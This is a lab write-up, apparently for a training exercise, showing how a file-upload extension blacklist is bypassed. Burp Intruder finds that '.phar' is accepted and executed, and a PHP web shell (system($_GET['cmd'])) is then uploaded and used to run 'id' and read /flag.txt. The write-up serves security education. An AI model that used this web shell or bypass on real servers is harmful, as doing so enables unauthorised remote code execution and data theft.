## Exercises

### Question 1 — Try to find an extension that is not blacklisted and can execute PHP code on the web server, and use it to read "/flag.txt"

Enabled FoxyProxy and turned on Burp's Intercept, then uploaded a valid image (`cat.jpg`) to capture a baseline request for the upload endpoint.





Located the captured `POST /upload.php` request in Burp's proxy history and sent it to **Intruder**.



#### Fuzzing for Non-Blacklisted Extensions

In Intruder's **Positions** tab, marked the `.jpg` extension inside `filename="cat§.jpg§"` as the single fuzzing position, keeping the body content unchanged for this first pass.



Loaded the SecLists `web-extensions.txt` wordlist as a simple list of 43 payloads, and unticked **URL-encode these characters** so the `.` before each extension would not be encoded.





Ran the Sniper attack and sorted the results by response length.





Confirmed: `.php`, `.php5`, `.php7`, `.phps`, and `.phtml` all returned length 225 with the body **Extension not allowed** — these make up the server's blacklist. Everything else, including `.php2`, `.php3`, `.php4`, `.php6`, and `.pht`, returned length 230 with **File successfully uploaded**, meaning those extensions pass the blacklist check. Hypothesis: one of these PHP-adjacent extensions would also be mapped to the PHP interpreter on the server and would execute code if uploaded.

#### Testing Candidate Extensions

Captured a normal image upload, sent it to Repeater, then changed the filename and body to the shell payload.

```http
POST /upload.php HTTP/1.1
Host: 154.57.164.78:41833
...SNIP...

------geckoformboundarya7f4334c042dc7f92a67c2858cf5d755
Content-Disposition: form-data; name="uploadFile"; filename="shell.php2"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
------geckoformboundarya7f4334c042dc7f92a67c2858cf5d755--
```



The upload succeeded, and the DOM confirmed the new image source pointed at `/profile_images/shell.php2`.



Visiting the uploaded file directly returned the raw PHP source rather than executing it:

```txt
http://154.57.164.78:41833/profile_images/shell.php2
```



Ruled out: `.php2` passes the blacklist but is not mapped to the PHP interpreter on this server, so it is served as plain text rather than executed.

Repeated the same Repeater-based process for `.php3`, `.php4`, `.php6`, and `.pht` in turn, changing only the filename extension each time. Each upload succeeded, but visiting each uploaded file returned the raw PHP source rather than running it, the same as `.php2`.

Ruled out: `.php3`, `.php4`, `.php6`, and `.pht` are all also accepted by the blacklist but not executed as PHP by this server's configuration.

#### Switching to a Hello World Payload

At this point, checked the hint for the exercise, which suggested fuzzing with a PHP "hello world" script as the upload content itself, so that execution could be checked directly against each candidate rather than retesting extensions individually after the fact.

Reconfigured the Intruder attack: kept the extension as the payload position on `cat§.jpg§`, but replaced the body content with:

```php
<?php echo "Hello world!"; ?>
```



Ran the attack again; all non-blacklisted extensions uploaded successfully as before (`File successfully uploaded`, Content-Length 26).



Visiting the uploaded files individually, `cat.phar` rendered the script's output rather than its source:

```txt
http://154.57.164.78:41833/profile_images/cat.phar
```



Confirmed: `.phar` is mapped to the PHP interpreter on this server and executes uploaded PHP code, unlike the other candidates tried.

#### Uploading the Web Shell as .phar

Repeated the Repeater upload once more, this time with the actual web shell payload and the `.phar` extension:

```http
------geckoformboundarya7f4334c042dc7f92a67c2858cf5d755
Content-Disposition: form-data; name="uploadFile"; filename="shell.phar"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
------geckoformboundarya7f4334c042dc7f92a67c2858cf5d755--
```

Uploaded successfully. Visiting the shell with a test command confirmed execution:

```txt
http://154.57.164.78:41833/profile_images/shell.phar?cmd=id
```



Confirmed: the `.phar` extension both bypasses the blacklist and executes as PHP, running as `www-data`. Read the flag with the same shell:

```txt
http://154.57.164.78:41833/profile_images/shell.phar?cmd=cat+/flag.txt
```



**Answer:** `—REDACTED—`